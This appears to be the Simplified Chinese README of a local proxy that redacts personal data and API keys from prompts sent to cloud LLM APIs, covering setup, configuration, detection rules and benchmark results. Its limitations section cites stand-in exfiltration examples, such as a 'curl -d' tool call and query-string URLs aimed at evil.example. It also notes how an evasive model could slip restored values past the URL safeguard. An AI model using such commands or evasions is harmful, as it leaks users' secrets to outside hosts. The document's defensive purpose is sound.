

# redaction-proxy

[English](README.md) · [繁體中文](README.zh-TW.md) · **简体中文** · [日本語](README.ja.md)

一个跑在你本机上的小代理：提示词发往云端大模型之前，先把邮箱、API 密钥、证件号等个人信息替换成占位符做脱敏；回复回来时，再把原值填回去。


兼容任何 OpenAI 或 Anthropic 接口的客户端，流式输出同样支持，不需要本地模型。它能**减少**个人信息和机密信息的泄露，但**不能**让对话变成私密的。

**该用哪一个？**

| | 这个代理 | [dsh-privacy-router](https://github.com/PersonalAssistanceHsin/dsh-privacy-router) |
| --- | --- | --- |
| 需要本地模型 | 不需要 | 需要（由它回答私密的轮次） |
| 什么会发到云端 | 每个请求，脱敏后发出 | 只有判为公开的轮次，脱敏后发出；判为私密的轮次留在你的电脑 |
| 适用 | 任何 OpenAI 或 Anthropic 兼容的客户端 | 仅限 DeepSeek Harness（dsh） |

跑得动本地模型、想要更强的隐私，请先安装分流器；它通过 dsh-addons 的 redaction 包使用这个代理的脱敏核心，安装时一起装上。跑不动的话，单用这个代理也能多一层隐私保护。

> **状态：** 0.3.0，尚未发布到 npm。已在真实服务上验证：DeepSeek Chat Completions（2026-10-08），以及通过 Claude Code 和 dsh 的 Anthropic Messages（2026-10-13），见下文。OpenAI API 和 Codex CLI 尚未验证。

## 介绍视频

[](docs/media/intro.mp4)

视频回放的是 `pnpm demo` 以及另一个经过代理的请求的真实输出（字幕为英文）。[MP4 版本](docs/media/intro.mp4)。

## 30 秒上手

需要 Node 22.19 及以上（或 24 及以上）和 pnpm。在本仓库的克隆目录里执行：

```sh
pnpm install
pnpm demo          # 无需密钥：模拟上游 + 代理 + 一次流式请求
pnpm build
node lib/cli.js    # 启动代理，地址 http://127.0.0.1:8787
```

`pnpm demo` 的输出（示例数据是繁体中文）：

```text
client sends:      請寄信給 lin.fictional@example.test，身分證 A123456789，檔案在 /Users/fictional-user/notes.md
[proxy log] POST /v1/chat/completions -> 200 masked 3 (EMAIL 1, TWID 1, PATH 1) restored 3 unknown 0 8ms
upstream received: 請寄信給 ⟦EMAIL_1⟧，身分證 ⟦TWID_1⟧，檔案在 ⟦PATH_1⟧/notes.md
client receives:   I will email lin.fictional@example.test about /Users/fictional-user/notes.md (ID A123456789).
```

### Docker

2026-10-13 在 Apple Silicon 上用 Docker Desktop 29.6.2（linux/arm64）对本机假上游验证：镜像可以构建（347 MB；加 `--build-arg NAME_MODEL=1` 为 864 MB），以非 root 用户 `node` 运行；没设 `REDACTION_PROXY_AUTH_TOKEN` 时拒绝启动，没带令牌的请求返回 401；邮箱、身份证号和主目录路径在 OpenAI Chat Completions JSON、流式和 Anthropic Messages 中都以脱敏后的形式发往上游，并在回复中还原；允许来源的 CORS 预检得到 204 且不转发，其他来源得到 403；下方的配置文件挂载可用。未测试：用真实模型运行人名模型版镜像，以及 linux/amd64。

```sh
docker build -t redaction-proxy .
export REDACTION_PROXY_AUTH_TOKEN=$(openssl rand -hex 32)
docker run --rm -p 127.0.0.1:8787:8787 -e REDACTION_PROXY_AUTH_TOKEN redaction-proxy
```

> **一定要用 `-p 127.0.0.1:8787:8787`，不要用 `-p 8787:8787`。** 镜像在容器内监听 `0.0.0.0`，所以没设 `REDACTION_PROXY_AUTH_TOKEN` 就拒绝启动，没带令牌的请求一律返回 401；唯一例外是允许来源的浏览器 CORS 预检，由代理自己应答，不转发任何内容（其他来源的网页得到 403）。令牌以明文 HTTP 传输；`127.0.0.1:` 这个前缀让它，以及你的工具经由代理发出的 API 密钥，不暴露在你的网络上。

客户端在 `x-redaction-proxy-token` 请求头中带上令牌：Claude Code 用 `ANTHROPIC_CUSTOM_HEADERS="x-redaction-proxy-token: $REDACTION_PROXY_AUTH_TOKEN"`；OpenAI 和 Anthropic SDK 用默认请求头选项（Python 的 `default_headers`、TypeScript 的 `defaultHeaders`）。

配置文件 `redaction.toml`（或 `.json`）：加上 `-v "$PWD/redaction.toml:/redaction.toml:ro"`，并在末尾加 `--config /redaction.toml`。人名模型：用 `--build-arg NAME_MODEL=1` 构建，并加上 `-v ~/models/nym:/models:ro -e REDACTION_PROXY_NAME_MODEL_DIR=/models`。

上游是非本机的明文 `http://`（例如经由 `host.docker.internal` 访问的本机模型服务器）时，再加 `-e REDACTION_PROXY_ALLOW_INSECURE_UPSTREAM=1`。`maskLocalUsername` 跳过容器的用户 `node`，所以在镜像中不脱敏任何词。

### npx（首次发布到 npm 之后）

目前还没有发布到 npm，在那之前请按[30 秒上手](#30-秒上手)从克隆目录运行。2026-10-13 用本地 tarball 验证：`npm pack` 生成 180 kB、60 个文件的包，`npx --yes --package=./redaction-proxy-<version>.tgz redaction-proxy --demo` 打印演示输出，不加 `--demo` 时代理在 127.0.0.1:8787 启动。发布之后：

```sh
npx redaction-proxy --demo
npx redaction-proxy           # 启动代理，地址 http://127.0.0.1:8787（本机不需要令牌）
```

代理没有健康检查端点：GET 请求会转发到上游。

## 接入你的工具

> **真实服务：已验证 DeepSeek 和 Anthropic，OpenAI 尚未验证。** 2026-10-08 用[真实服务验证工具](e2e/real/README.md)对 DeepSeek 跑了 4 个场景（Chat Completions；非流式 JSON 与流式；纯文本与强制工具调用），全部通过：上游只看到占位符，每次 5 个值都还原。2026-10-13 有两个真实客户端经由代理使用 Anthropic Messages（Claude Haiku 5.5）：
>
> - **Claude Code 2.1.287**，以订阅登录，设置 `ANTHROPIC_BASE_URL=http://127.0.0.1:8787`：流式文本与工具（Bash、Read）。检测到的值上游只看到占位符，回复已还原，工具参数按 `toolRestore` 还原 `PATH`、`TERM`、`PROJECT`，其他类别保留为占位符。0.3.0 之前，工具参数中保留的占位符在后续轮次会被重新编号，模型把同一个工具重试了 7 次；0.3.0 中同一个任务只用 1 次工具调用、3 个请求。Claude Code 还会发送操作系统的用户名（在 `safeguards…user_identity` 和项目目录名中），0.3.0 默认会脱敏（`maskLocalUsername`）。
> - **dsh**（DeepSeek Harness，经由它的 pi-ai Anthropic 路径）：文本与工具。0.3.0 之前，保留的占位符让 Anthropic 以 HTTP 400 拒绝重发的签名 thinking 块；已验证 0.3.0 修复了这个问题。
>
> 未验证：OpenAI API（没有密钥）、Codex CLI（未登录）、直接使用 Anthropic SDK（只经由 dsh 的 pi-ai 用过）、用本仓库的 `e2e:real` 验证工具对 Anthropic 运行（未运行）。

工具照常发送自己的 API 密钥；代理原样转发，从不保存。

| 工具 | 配置 | 状态 |
| --- | --- | --- |
| Claude Code | `ANTHROPIC_BASE_URL=http://127.0.0.1:8787 claude` | 2026-10-13 已验证（订阅登录；文本、流式、工具） |
| Anthropic SDK | `ANTHROPIC_BASE_URL=http://127.0.0.1:8787`（不带 `/v1`） | 经由 dsh（pi-ai）验证，未直接验证 |
| OpenAI SDK 及大多数兼容工具 | `OPENAI_BASE_URL=http://127.0.0.1:8787/v1`（要带 `/v1`） | 未测试 |
| DeepSeek | 用 `REDACTION_PROXY_OPENAI_UPSTREAM=https://api.deepseek.com node lib/cli.js` 启动代理，再配 `OPENAI_BASE_URL=http://127.0.0.1:8787/v1` 和你的 DeepSeek 密钥。这会替换掉 OpenAI 上游。 | 已用真实服务验证工具验证（仅 API） |
| Cursor | 不支持：Cursor 的自定义 base URL 请求从 Cursor 自己的服务器发出，访问不到你的 `127.0.0.1`。 | — |

<details><summary>curl 示例与配置文件</summary>

```sh
curl http://127.0.0.1:8787/v1/chat/completions \
  -H "authorization: Bearer $OPENAI_API_KEY" \
  -H "content-type: application/json" \
  -d '{"model":"gpt-4o-mini","messages":[{"role":"user","content":"给 lin@example.test 发封邮件"}]}'
```

用 `node lib/cli.js --config redaction.toml` 指定 TOML 或 JSON 配置文件（`.toml` 读作 TOML；`.json` 或没有扩展名（比如 `/dev/stdin`）读作 JSON；其他扩展名会让启动失败；两者的键相同），环境变量可以覆盖它。每个选项及默认值见 [config.example.toml](config.example.toml)。上游 API 密钥永远不写进文件。出现不认识的键或类型不对的值（用 `"true"` 代替 `true`）时启动失败；错误信息只在键或值是简短、像名称的词（英文字母、`_` 或 `-`，最多 24 个字符、两个数字，不以 `sk-`、`ghp_` 等已知令牌前缀开头）时才引用它；其他内容，包括令牌形状的文本，都打印成 `<key>` 之类的占位文本。

| 键 | 默认值 | 说明 |
| --- | --- | --- |
| `port` | `8787` | TCP 端口。 |
| `host` | `127.0.0.1` | 监听地址。非本机地址（例如 Docker 中的 `0.0.0.0`）必须设置 `authToken`。 |
| `authToken` | 无 | 客户端必须在 `x-redaction-proxy-token` 请求头中发送的令牌，至少 16 个字符（`openssl rand -hex 32`）。监听本机时可不设。Claude Code 用 `ANTHROPIC_CUSTOM_HEADERS="x-redaction-proxy-token: <令牌>"` 发送；SDK 用其默认请求头选项。 |
| `allowedOrigins` | 无 | 除了本机 `http(s)` 网页之外，允许的浏览器或 Electron 来源，例如 `app://my-client`。不接受 `null`（`file://` 网页）。 |
| `openaiUpstream` | `https://api.openai.com` | Chat Completions 和 Responses 的上游。 |
| `anthropicUpstream` | `https://api.anthropic.com` | Anthropic Messages 的上游。 |
| `allowInsecureUpstream` | `false` | 允许以明文 `http://` 连接非本机的上游；API 密钥会以明文传输。 |
| `redaction.terms` | 无 | 需要脱敏的人名等词语，不区分大小写；首尾是英文字母或数字的词语只匹配完整的词（`Lin` 不匹配 `Linux`），中日韩词语在文本中照常匹配。词语若也是工具或参与者 `name` 中的完整单词（`nimbus_deploy`），提到它的请求默认以 422 拒绝，因为 `name` 字段不脱敏。 |
| `redaction.projectNames` | 无 | 需要脱敏的项目代号。 |
| `redaction.allowlist` | `git@github.com`、`noreply@github.com` | 永不脱敏的值。 |
| `redaction.rules` | 除 `card`、`entropy` 外全部 | 启用的内置规则。以 `card-strict`、`entropy-strict` 取代 `card`、`entropy`：不会把一串数字切成两半，也放过以文件名为键的哈希。 |
| `nameModel` | 无 | 开启[实验性的人名模型](#可选的人名模型实验性)。默认失败时放行：模型在某个请求上失败时，该请求只用规则脱敏后发出，日志那一行注明 `nameModel failed`；除非 `nameModel.required` 设为 `true`（此时返回 503，不发出）。 |
| `screen` | `replace` | 遇到控制字符时替换成可见字符（`replace`）或拒绝请求（`refuse`）。 |
| `debugMasked` | `false` | 在日志里记录脱敏后的请求体，代理不脱敏的字段（`metadata`、图片 URL、base64 数据）原样记录。仅供调试。 |
| `sendWhenMaskFails` | `false` | 脱敏失败时仍发出请求，不以 422 拒绝：脱敏后仍有检测到的值时发出部分脱敏的请求体，无法脱敏时发出未脱敏的请求体。这会把检测到的值发给服务商。响应会带 `x-redaction-proxy-mask-failed: 1` 头，日志列出字段与类别或错误代码，不含值。环境变量：`REDACTION_PROXY_SEND_WHEN_MASK_FAILS`（`1` 或 `0`）。 |
| `knownOriginalsTtlSeconds` | `86400`（24 小时） | 检测到的值为客户端之后的请求保留的秒数，从最后一次检测起算；`0` 表示什么都不记。环境变量：`REDACTION_PROXY_KNOWN_ORIGINALS_TTL_SECONDS`。 |
| `maskLocalUsername` | `true` | 把代理运行时的账户名（不同时也包括主目录的最后一段）当作 `terms` 的一项脱敏（`⟦TERM_n⟧`），所以单独出现的用户名与 `-Users-<名称>-project` 这类项目目录名不会发出。少于 3 个字符的名称与通用账户名（`root`、`node`、`runner`、`user`、`admin` 等）跳过，所以 Docker 镜像的 `node` 用户不脱敏任何词。与列出的词语不同，它从不让请求被拒：名称同时是 JSON 键、模型 id 或工具名称的一部分时（`max_tokens` 中的 `max`、`claude`），那里原样发出。环境变量：`REDACTION_PROXY_MASK_LOCAL_USERNAME`（`1` 或 `0`）。 |
| `toolRestore.categories` | `PATH`、`TERM`、`PROJECT` | 还原进工具调用参数的占位符类别；其他类别以占位符原样交给工具。`"*"` 还原所有类别。环境变量：`REDACTION_PROXY_TOOL_RESTORE_CATEGORIES`（逗号分隔）。 |
| `toolRestore.tools` | 无 | 按工具名（去掉首尾空白、不区分大小写）指定还原进该工具参数的类别，替换该工具的 `categories`，例如 `{"git_commit": ["PATH", "EMAIL"]}`；`"*"` 还原所有类别。 |

```json
{
  "redaction": {
    "terms": ["林小明", "Denise Whitlock"],
    "projectNames": ["Nimbus"]
  }
}
```

环境变量和全部选项见[技术细节第 12 节](docs/DETAILS.md#12-完整設定)（繁体中文）。日志每个请求一行，只有计数和耗时；工具调用参数中的每个占位符另记一行（还原或保留、id、工具、参数路径）。除非开启 `debugMasked`，绝不包含原始值或请求头。

没有发送 API 密钥的客户端，代理会从两个只能用环境变量设置的值补上：`REDACTION_PROXY_OPENAI_API_KEY`（OpenAI 型客户端没发 `authorization` 时以 `Authorization: Bearer` 发出）和 `REDACTION_PROXY_ANTHROPIC_API_KEY`（Anthropic 型客户端既没发 `x-api-key` 也没发 `authorization` 时以 `x-api-key` 发出）。它们只存在内存中；所有依赖它们的客户端共用同一个记忆范围。

</details>

## 会脱敏哪些内容


| 类别 | 示例 | 云端看到 |
| --- | --- | --- |
| 邮箱 | `lin@example.test` | `⟦EMAIL_1⟧` |
| API 密钥和凭据 | `sk-…`、`ghp_…`、`AKIA…`、`glpat-…`、`sk_live_…`、JWT、`Bearer …`、`password=…`、`the token is …` | `⟦KEY_1⟧` |
| 用户主目录路径（只脱敏前缀） | `/Users/lin/notes.md` | `⟦PATH_1⟧/notes.md` |
| 内网 IP、内部主机名 | `192.168.1.20`、`100.64.1.2`、`fd12::1`、`nas.local`、`git.corp` | `⟦IP_1⟧`、`⟦HOST_1⟧` |
| 各国国内格式或电话字眼后的电话号码 | `(415) 555-0132`、`020 7946 0958`、`Telefon: 030 12345678` | `⟦PHONE_1⟧` |
| 银行卡号（Luhn 校验） | 13–19 位 | `⟦CARD_1⟧` |
| 台湾身份证号、手机号、统一编号，以及关键词后的护照号与健保卡号 | `A123456789`、`0912-345-678`、`0912.345.678`、`護照 312345678` | `⟦TWID_1⟧`、`⟦PHONE_1⟧` |
| 另外 10 个国家和地区的证件号、IBAN | 中国大陆居民身份证号、美国 SSN、英国 NINO、日本个人编号等 | `⟦NATID_1⟧`、`⟦IBAN_1⟧` |
| 长随机串 | 32 位以上的 hex 或 base64 | `⟦ENTROPY_1⟧` |
| 你列出的词语 | `terms`、`projectNames` | `⟦TERM_1⟧`、`⟦PROJECT_1⟧` |

同一个值在整个请求里用同一个占位符。请求中检测到的值脱敏后若仍在请求里，代理会拒绝发送（422），不冒泄露的风险；开启 `sendWhenMaskFails` 时例外。客户端请求中检测到、至少 6 个 ASCII 字符或 2 个其他字符长的值，代理还会按客户端凭证记在内存中，从最后一次检测起保留 24 小时（`knownOriginalsTtlSeconds`），之后的请求即使历史中已没有检测它的上下文（`password: …`），它单独出现的地方也照样脱敏（记住的凭证类值不区分 ASCII 大小写）。这份记忆只是尽力而为的额外脱敏，从不拒绝请求：记住的值粘着其他字符出现（`xTr0ub4dor&3xy`）、换了写法，或在代理不改写的字段中时，原样发出。在你自己的消息或系统提示词中找到的值与在工具输出中找到的值分开存放，所以大量的工具结果挤不掉写在那里的密码。这份记忆有上限，所以能连到代理的本机程序可以发大量请求把值挤掉；代理默认只监听本机地址，其他地址必须设令牌。全由 API 字段用词组成的 snake_case 值（`web_server`、`data_store`）只在绑定它的请求中脱敏，所以之后的请求仍能写出这个字段名。全角数字、`＠` 和零宽字符（U+200B–U+200D、U+2060、U+FEFF、软连字符）会先归一化再匹配；值中间的其他不可见字符（双向标记、变体选择符）不归一化。完整规则见[技术细节第 3 节](docs/DETAILS.md#3-偵測規則)。

## 工作原理

每个发往脱敏路由的 POST 都走同样的步骤；GET 不脱敏，直接转发。代理不保存各段对话的占位符对照表：每次请求都从完整历史重新编号，所以只往后增加的对话中，每一轮脱敏后的前缀不变，云端的提示缓存照常生效；例外是较后的轮次（或同一凭证的另一个请求）首次检测到一个之前已出现过的值，此时之前的位置也会被脱敏，前缀因此改变一次（[原因与会打破的情况](docs/DETAILS.md#4-遮罩順序與提示快取)）。有两样东西会按客户端凭证留在内存中，最多保留到重启：Responses API 回复的原始输入（给以 `previous_response_id` 接续、不重发历史的请求用），以及下表“记忆”行的值。



| 步骤 | 决定什么 | 出错时 |
| --- | --- | --- |
| 入口 | 网页发出的请求被拒，除非来源是本机的 `http(s)` 页面或列在 `allowedOrigins`；没设 `authToken` 时，发往其他主机名的请求也被拒。另外要求已知的路由，以及设了 `authToken` 时的令牌。 | 403、401、404 或 413，不转发。 |
| 检测 | 格式规则（email、密钥、证件号、电话、卡号、IP、主机名、用户主目录路径、长随机字符串）、关键词上下文（`password: …`）、你列的词、可选的人名模型。 | 没检测到的值原样发出。 |
| 脱敏 | 同一个值在整个请求中用同一个占位符。 | 请求体不是 JSON 或嵌套太深时返回 400。接续请求的 `previous_response_id` 代理没有时返回 422。 |
| 泄露检查 | 这个请求检测到的值，脱敏后若还在请求中，就拦下整个请求。枚举字段中像枚举值的值不检查；以空格分词的文字中，人名与你列的词只算完整单词；中日韩文字则在任何位置都算。 | 422，请求不发出。这是默认行为；开启 `sendWhenMaskFails` 时照样发出，并在响应上标记。 |
| 记忆 | 同一个客户端凭证之前请求检测到的值，单独出现时也脱敏，默认保留 24 小时。尽力而为，从不拒绝请求。 | 记住的值粘在其他文本中时原样发出。 |
| 还原 | 回复文本中的占位符还原，Anthropic 签名过的 `thinking` 块除外；URL 内的保留；工具调用参数只还原 `toolRestore` 允许的类别。模型自己编出来的占位符原样保留。 | 工具可能拿到占位符而不是它需要的值；为那个工具允许该类别即可。URL 内的占位符不论类别都保留。 |

代理原样转发你的 API 密钥，从不存储；它的 SHA-256 摘要用来区分各客户端的记忆；依赖代理备用密钥的客户端共用一个范围。各步骤的细节（繁体中文）：[技术细节第 1 节](docs/DETAILS.md#1-架構)、[第 4 节：编号与提示缓存](docs/DETAILS.md#4-遮罩順序與提示快取)、[第 6 节：拒绝](docs/DETAILS.md#6-拒絕與錯誤狀態碼)、[第 7 节：流式还原](docs/DETAILS.md#7-串流還原)、[第 8 节：记忆](docs/DETAILS.md#已知原始值)、[第 9 节：筛查](docs/DETAILS.md#9-控制字元篩檢)。

## 可选的人名模型（实验性）

默认关闭。只靠规则识别不了人名。开启一个小型本地模型（[`Wismut/nym-pii-multilingual-small`](https://huggingface.co/Wismut/nym-pii-multilingual-small)，MIT 许可，108 MB）后，它会在**你**写的文字里额外脱敏人名、公司、地名和地址（`⟦NAME_1⟧`、`⟦ORG_1⟧`、`⟦LOC_1⟧`、`⟦ADDR_1⟧`）。

```sh
pnpm add -D onnxruntime-node@1.30.0 tokenizers@0.23.2   # 运行时，约 350 MB
node scripts/fetch-name-model.mjs ~/models/nym        # 约 125 MB，校验 sha256
REDACTION_PROXY_NAME_MODEL_DIR=$HOME/models/nym node lib/cli.js
```

它会漏掉一些人名，也会把一些不是人名的词脱敏。合成数据上的实测：

| | 结果 |
| --- | --- |
| 普通文本中的人名：英文、日文 | 召回率 1.00、1.00 |
| 普通文本中的人名：繁体中文 | 召回率 **0.87**（大约每 8 个漏 1 个） |
| 粘贴的代码、日志、JSON 中的人名 | 召回率 0.10–0.30：代码不读，这类人名请写进 `terms` |
| 精确率 | 0.94 |
| 代价 | 内存约 +420 MB；每 2 KB 中文文本 p95 约 130 ms |

它读哪些文字、全部数据和选项，见[技术细节第 16 节](docs/DETAILS.md#16-人名模型實驗性)。

## 实测结果

<!-- RESULTS:START -->
**held-out set v2 (written blind, run once)，保留集第 2 版（盲写、只跑一次）。** 7 种语言（英文、繁中、简中、日文、韩文、德文、法文）共 1,617 条合成提示词、10,268 个敏感值、2,997 个困难反例。编写者没看过规则和评测代码；约 60% 的值是非标准写法（用点分隔的卡号、小写 IBAN、`name at example dot com`、带分机的电话）。用 SHA-256 冻结后只在 2026-10-07 评分一次，使用代理默认的检测器 `rules-6+intl-2+ext-1`；两版保留集及其哈希在 [bench/heldout/](bench/heldout/)。其中所有形似凭证的字符串（`ghp_`、`AKIA`、`npm_`、PEM 块）都是合成的、无法使用，密钥扫描工具标出它们是预期之中的。


| 保留集第 2 版，英文提示词（1,527 个值） | 核心默认规则 | 代理默认规则 | + 人名模型（实验性） | Presidio，cutoff 0 | Presidio，cutoff 0.4 |
| --- | --- | --- | --- | --- | --- |
| 完整脱敏（10 类宏平均） | 25.9% | 39.5% | **44.8%** | 40.4% | 37.8% |
| 完全未脱敏（宏平均） | 64.0% | 49.9% | 35.6% | **29.3%** | 35.0% |
| 与敏感值重叠的脱敏区域 | 94.3% | **95.8%** | 94.8% | 64.9% | 68.0% |
| 每条提示词的中位耗时 | 0.10 ms | 0.12 ms | 10.8 ms | 11.4 ms | 11.2 ms |
| 完整脱敏，全部 7 种语言 | 27.3% | 37.9% | 44.4% | 34.5%* | 32.8%* |

\* Presidio 把每条提示词都当英文分析，全部语言的结果仅供参考。

标准与非标准写法，英文，完整脱敏（n 为值的数量）：

| 类别 | 代理默认，标准 | 代理默认，非标准 | Presidio 0.4，标准 | Presidio 0.4，非标准 |
| --- | --- | --- | --- | --- |
| 邮箱 | 100%（n=107） | 61.5%（n=148） | 57.9% | 35.1% |
| 电话 | 70.4%（n=54） | 41.1%（n=107） | 83.3% | 85.0% |
| 身份证号 | 89.5%（n=19） | 30.4%（n=23） | 68.4% | 47.8% |
| 银行卡 | 94.7%（n=19） | 0.0%（n=40） | 84.2% | 15.0% |
| IBAN | 100%（n=15） | 0.0%（n=46） | 100% | 69.6% |
| 密钥与凭据 | 95.9%（n=49） | 80.7%（n=140） | 12.2% | 5.7% |
| 主机 | 100%（n=93） | 43.6%（n=149） | 47.3% | 12.1% |
| 人名（加人名模型） | 60.4%（n=164） | 39.1%（n=192） | 42.7% | 44.3% |

100% 的格子都是标准写法，正是规则针对的写法，而且样本小：n=15 全对只说明 15 个里没有漏掉任何一个。

薄弱之处（英文、代理默认）：

- **非标准写法**的 IBAN、卡号、身份证号大多识别不到（完整脱敏 0%、0%、30%）；38% 的非标准邮箱（`name at example dot com`、国际化域名、加空格）完全未脱敏。
- **路径**大多只脱敏一部分（88%）：用户名会被脱敏，路径其余部分保留。
- **地址。** 没有地址规则：完整脱敏 0%（人名模型脱敏一部分的有 77%）。
- **人名**要靠人名模型，完整脱敏 49%（全部语言 52%）。
- **电话**完整脱敏 51%（Presidio 85%）；带分机（`x204`）的电话没有一个被完整脱敏。

还原，自检而非成绩：只用规则时，1,617 条提示词脱敏后全部能逐字节还原；开启人名模型时是 1,617 条中的 1,587 条（30 条不完全一致）。

上面的数字以检测器 `rules-6+intl-2+ext-1` 测量；发布版是 `rules-12+intl-2+ext-1`，之后的修改都不在数字中。当时的 `ext-1` 只有现在 10 条扩展规则中的 5 条（v0.1.0 之前的修改沿用这个版本），人名模型是 `nym-edge-int8-2`（现在是 `nym-edge-int8-3`）。之后的修改包括：schema 用词、API 字段名、占位写法或模板形式的凭证值（`password: required`、`${{ secrets.X }}`）不再脱敏；首尾是英文字母或数字的词语只匹配完整的词。更早、同样不在数字中的修改：代理默认现在也脱敏小写字母开头和夹不换行空格的台湾身份证号、用 `.`、`/`、`_` 分组或前 4 位加括号（`(0912)345678`）的手机号、关键词后的护照号与健保卡号、`@` 经 HTML 或 JSON 转义的邮箱、加引号的凭证键（`"密碼": "…"`、`"jwt": "…"`），以及 `100.64.0.0/10` 和 IPv6 唯一本地地址；`card-strict` 现在也能识别重新分组、用点分隔、混用空格和 `-`，以及换行断开的卡号（这次代理默认只完整脱敏 30.5% 的英文卡号，核心默认是 44.1%）；人名模型的还原错误已修正：同一个名字的不同写法（`Jordan`、`JORDAN`）现在各用一个占位符（自定义词汇也一样，`Nimbus` 和 `NIMBUS` 各自原样还原）。保留集不用发布版检测器重新评分：后来有些规则修改（例如 `card-strict` 那一项）是看过这些结果后做的，再评分一次就不是盲测；要得到新的保留集数字，需要一组新的保留集。

完整表格：[保留集第 2 版结果](bench/results/public-bench-held-out-v2.md)。较早的[保留集第 1 版](bench/results/public-bench-held-out.md)（1,518 条、较旧的规则 `rules-6+intl-1`、只有标准写法）留作记录。方法和其他测量：[技术细节第 18 节](docs/DETAILS.md#18-實測數字)。
<!-- RESULTS:END -->

## 保护范围

- **保护什么：** 默认下，代理检测到的值云端服务商收不到，只看到占位符（开启 `sendWhenMaskFails` 时，脱敏失败的请求会连同该值发出）。
- **不保护什么：** 值在你的电脑上还原之后，工具怎么使用它不在代理的范围内。检测器漏掉的内容原样发出，见[它防不了什么](#它防不了什么)和[完整限制清单](docs/DETAILS.md#17-完整限制清單)。
- **两层：** 请求中检测到的值在整个请求中脱敏，脱敏后若仍在请求里，请求默认以 422 拒绝；`sendWhenMaskFails` 可关闭这项拒绝，连同该值发出请求。跨请求的记忆只是尽力而为的额外脱敏：从不拒绝请求，记住的值粘在其他文字中或换了写法时，可能原样发出。
- **做不到什么：** 需要用到被脱敏的值本身的任务，比如取出 email 的域名或转换一把密钥：模型只看到 `⟦EMAIL_1⟧`。
- **绝不能离开电脑的内容**应改由本地模型回答，比如通过把这类对话轮次留在本地的分流器（[dsh-privacy-router](https://github.com/PersonalAssistanceHsin/dsh-privacy-router)）。

## 它防不了什么

- **语义。** 云端仍能读到占位符周围的全部内容：`⟦PATH_1⟧/clients/acme-layoffs.md` 照样透露很多。
- **人名、地址、病情、薪资**，除非你写进 `terms` 或人名模型识别出来。地址是自由文本，没有固定格式或关键词，所以没有地址规则。
- **图片、PDF 等 base64 文件（纯文本文档的内容照常脱敏）、音频、`url` 字段、`metadata`、`stop` 序列、`name` 字段（工具名与参与者名）、带签名的 thinking。** 这些原样转发且不扫描，JSON 对象的键也一样：在被脱敏的文本中检测到的值如果也出现在其中，整个请求默认以 422 拒绝；只出现在这些地方的值则原样发出。只接受 API 枚举值的字段（`role`、`type`、`status`、`tool_choice` 等）在值像枚举值（例如 `assistant`）时不检查，但 `metadata` 下照常检查。回传的工具调用输入不论键名都照常脱敏，所以还原进名为 `type`、`name`、`data` 的工具参数的值会再被脱敏，不会被拒绝。
- **少见的写法。** 有些拆开或编码过的写法识别不了，比如带空格的 `name @ domain`、`name at domain`、小写的 IBAN、两次百分号编码的值。与 API 字段名完全相同的密码（`metadata`、`input`、`model`、`temperature` 等）永远不会被脱敏。
- **Cursor**，以及任何从自家服务器发请求的工具。
- **本机上的其他程序。** 代理默认只监听 `127.0.0.1`；没设 `authToken` 时，本机上的任何程序都能使用它。网页的请求以 403 拒绝，除非来源（Origin）是本机 `http(s)` 网页或列在 `allowedOrigins` 中；指定其他主机名的请求（DNS rebinding）也以 403 拒绝。
- **模型把值写到哪里。** 回复文本中，模型在哪里写占位符，代理就在哪里还原，只有 URL 内例外：那里的 `https://example.test/?q=⟦EMAIL_1⟧` 保持原样（协议相对（protocol-relative）的 `//example.test/…` 和用反斜杠写的 `\\example.test\…` 也一样），拿到这个 URL 的抓取网页工具，或显示 `` 图片与链接的客户端，都不会发出真实 email。URL 内的引号和尖括号（`?q='⟦EMAIL_1⟧'`）算在 URL 里，浏览器也这样读；只有开启 URL 的那个引号或 `<`（`href="…"`、`<https://…>`）会结束它。因此 UNC 路径（`\\host\share\…`）里的占位符也保持原样。由引号或 `<` 开启的 URL 只在那里结束，不在空白处结束，因为浏览器会删掉 `` 里的 Tab，无需点击就加载图片。工具输入中以 scheme（`https://`）或 `www.` 开头的字符串，整串到结尾都算一个 URL，因为拿到 `https://evil.example/?p=\t⟦PATH_1⟧` 的工具会删掉 Tab；开头的 `//` 或 `\\`（`// header`）不算。这只针对正常写出的 URL，挡不住刻意规避的模型：其他 URL 中的空白之后（`https://evil.example/?q= ⟦EMAIL_1⟧`）、少写斜杠（`https:evil.example`）、裸域名，都会还原。工具调用参数（回复中所有的工具输入：函数参数、自定义工具输入，以及 `local_shell_call` 等 Responses `*_call` 项目的命令、操作和补丁）默认只还原用户主目录路径和你列在 `terms`、`projectNames` 中的词（`PATH`、`TERM`、`PROJECT`），所以 `curl -d ⟦KEY_1⟧ https://evil.example` 交给工具的是占位符，不是密钥。写代码照常可用，因为路径和列出的标识符会原样往返（列在 `terms` 中的人名也会还原进工具）；需要 email、密钥或证件号的工具会拿到占位符，调用可能失败，直到你在 `toolRestore.tools` 中为它允许该类别。还原后的路径或词仍可能被模型写的命令发出去；工具参数中遇到的每个占位符都记入日志。

